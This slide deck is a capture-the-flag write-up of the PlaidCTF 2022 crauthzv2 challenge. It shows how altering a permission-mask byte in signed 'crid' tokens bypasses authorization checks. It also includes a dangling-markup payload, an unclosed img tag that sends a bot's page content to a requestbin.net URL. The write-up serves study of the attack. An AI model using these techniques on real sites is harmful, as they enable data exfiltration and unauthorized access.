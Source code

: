 ```yaml
---
marp: true
paginate: true
header: 'crauthzv2 PlaidCTF 2022'
footer: 'Dosenpfand'
---
```


# crauthzv2 PlaidCTF 2022

---

## Disclaimer
- Not solved during the CTF
- Challenge author published intended solution and parts of the source code

---

## Task Description
- Categories: web, crypto
- Link to web app (job board), no source code
- From the task description
    > [...] What if we used cryptography to do our permissions checks instead?
    > Hint: What control do you have over the values pointed to by the mask?
- From a job posting on the web app
    > [...] Share your resume on THE GAUNTLET with "jobs" for consideration. We'll scrape any images in your resume; [...]

---

### Analysis - CRID I
- Typical link:
    ```
    http://crauthz.chal.pwni.ng/view?id=crid%3ABZLBNnxQ92%2BcAS1SHrCQ5a86EJTMHkTRUIroXYWk080r
    ```
- Constantly changing
- Format: `url_encode("crid:" + base64_encode(data))`
- `data` always start `5` or `7`

---

### Analysis - CRID II
- Error when modifying CRID
- starting with 5:
    > Error: Invalid ID (with parsed mask ['user_id', 'purpose']) for user id "1158", csrf "f447f3c65b49aa05957aca523c1e1828", purpose "view"

- 7: `['user_id', 'csrf', 'purpose'])`
- 3: `['user_id', 'csrf']`
- 6: `['csrf', 'purpose']`

---

### Analysis - CRID III
- 1st byte of `crid` is `mask`
- Changing the mask and adapting the `csrf` cookie accordringly validates
- E.g. Change from `5` to `3` and set `csrf` cookie to user id.

---

### Analysis - Image Sharing
- Sharing an unclosed HTML `img` tag
    ```
    <img src="http://requestbin.net/r/5vn3gc7l?q=
    ```
- We get some HTML succeeding the tag
    ```
    <b>Internal listing - security engineer</b>
    (Job) by jobs
    <a href=/p/unpin_listing?listing_id=crid:Bc6Rl57Y3nU9CbKqnfoCruNP074GbEkkb0RapF1tmQ==
    &ret=crid:BwK08K/aJC4FC+b5LbL9eAi/47baWgNCkVU7uijNPSj0
    >Unpin</
    ```

---

### Solution I
1. Share resume with user `jobs` with unclosed image tag
2. Get an `unpin` URL for internal job listing
3. Modify its `crid`'s 1st byte from `5 = ['user_id', 'purpose']` to `6 = ['csrf', 'purpose']`
4. Use it to pin the listing: Request `/pin_listing?listing_id=crid%3A_MODIFIED_CRID_1` with cookie `csrf=pin_listing`

---

### Solution II
5. Pinned listing not viewable due to permission checks, but we have a `unpin` `crid` now
6. Change it from `5 = ['user_id', 'purpose']` to `['user_id', 'csrf']`
7.  Use it to share the listing with our user: Request `/share_listing?id=crid%3A_MODIFIED_CRID_2&other=our_user` with cookie `csrf=pin_listing`
8. View the internal listing, flag is in the comments

---

### References
- Intended solution: https://gist.github.com/mserrano/44031a01afb53f98536af17f6ba9eedd
- Writeup: https://github.com/Dosenpfand/ctf-writeups/blob/master/writeup_2022_PlaidCTF_crauthzv2.md

---
